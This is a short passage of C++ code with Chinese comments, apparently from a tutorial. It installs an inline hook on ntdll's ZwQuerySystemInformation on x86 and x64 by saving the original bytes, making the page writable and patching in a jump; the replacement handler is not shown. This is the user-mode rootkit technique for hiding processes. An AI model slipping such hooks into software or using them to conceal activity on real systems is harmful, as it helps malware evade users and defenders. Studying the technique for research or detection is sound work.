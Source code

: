 实现代码
----

hook函数

```c++
void hookZwQuerySystemInformation()
{
    //获取ZwQuerySystemInformation的地址
    HMODULE hntdll = LoadLibraryA("ntdll.dll");
    if (!hntdll) {
        std::cout << "[!] Load ntdll Faild..\n";
        return;
    }
#ifdef _WIN64
    typedef DWORD(WINAPI* typedef_ZwQuerySystemInformation)(
        _In_      SYSTEM_INFORMATION_CLASS SystemInformationClass,
        _Inout_   PVOID                    SystemInformation,
        _In_      ULONG                    SystemInformationLength,
        _Out_opt_ PULONG                   ReturnLength
        );
#else
    typedef DWORD(WINAPI* typedef_ZwQuerySystemInformation)(
        _In_      SYSTEM_INFORMATION_CLASS SystemInformationClass,
        _Inout_   PVOID                    SystemInformation,
        _In_      ULONG                    SystemInformationLength,
        _Out_opt_ PULONG                   ReturnLength
        );
#endif
    typedef_ZwQuerySystemInformation ZwQuerySystemInformation = (typedef_ZwQuerySystemInformation)::GetProcAddress(hntdll, "ZwQuerySystemInformation");
    if (!ZwQuerySystemInformation) {
        std::cout << "[!] Get ZwQuerySystemInformation Addr Faild..\n";
        return;
    }

#ifdef _WIN64
    BYTE pData[12] = { 0x48,0xb8,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0xFF,0xE0 };
    ULONGLONG InfoAddr = (ULONGLONG)New_ZwQuerySystemInformation;
    ::RtlCopyMemory(&pData[2], &InfoAddr, sizeof(InfoAddr));
    // 保存前 12 字节数据
    ::RtlCopyMemory(g_Oldwin64, ZwQuerySystemInformation, sizeof(pData));
#else
    BYTE pData[5] = { 0xe9,0x0,0x0,0x0,0x0 };
    //算出偏移地址
    DWORD dwOffeset = (DWORD)New_ZwQuerySystemInformation - (DWORD)ZwQuerySystemInformation - 5;
    //得到完整的pData
    RtlCopyMemory(&pData[1], &dwOffeset, sizeof(dwOffeset));
    //保存原来的硬编码
    RtlCopyMemory(g_Oldwin32, ZwQuerySystemInformation, sizeof(pData));
#endif 
    DWORD dwOldProtect = NULL;
    //修改为可写属性,不然会0xC00005访问错误
    VirtualProtect(ZwQuerySystemInformation, sizeof(pData), PAGE_EXECUTE_READWRITE, &dwOldProtect);
    //修改硬编码
    RtlCopyMemory(ZwQuerySystemInformation, pData, sizeof(pData));
    //还原保护属性
    VirtualProtect(ZwQuerySystemInformation, sizeof(pData), dwOldProtect, &dwOldProtect);
}
```
